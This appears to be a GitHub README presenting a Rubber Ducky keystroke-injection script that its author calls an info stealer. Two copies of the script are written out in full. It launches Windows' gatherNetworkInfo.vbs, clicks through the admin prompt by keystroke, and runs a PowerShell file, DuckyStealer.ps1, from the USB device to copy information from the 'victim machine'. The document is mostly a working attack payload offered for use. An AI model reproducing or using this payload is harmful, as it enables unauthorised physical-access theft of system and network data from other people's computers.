 # Rubber_Ducky_Gather_Network_Info
A very quickly script for rubber ducky which exploits the gatherNetworkInfo.vbs file in the C: \ Windows \ System32 folder to steal different information from the victim machine.

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/PrivacyPolicy.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")

<h2>Gather_Network_Info_Script</h2>

REM gathernetworkInfo a info stealer script by JonnyBanana
</BR>
REM https://github.com/JonnyBanana
</BR>
REM large delay beacause Windows require a lot of time to read the Ducky with twin duck firmware
</BR>
DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
REM run as admin
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
REM the scripts require a little of time to create the files....
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
REM the Rubber Ducky MUST renamed on " _ " (bottom bar)
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>
REM the last command  takes about thirty seconds to copy all the informations
</BR>
REM so be patient...



<h6>Script Without Comments</H6>

DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>
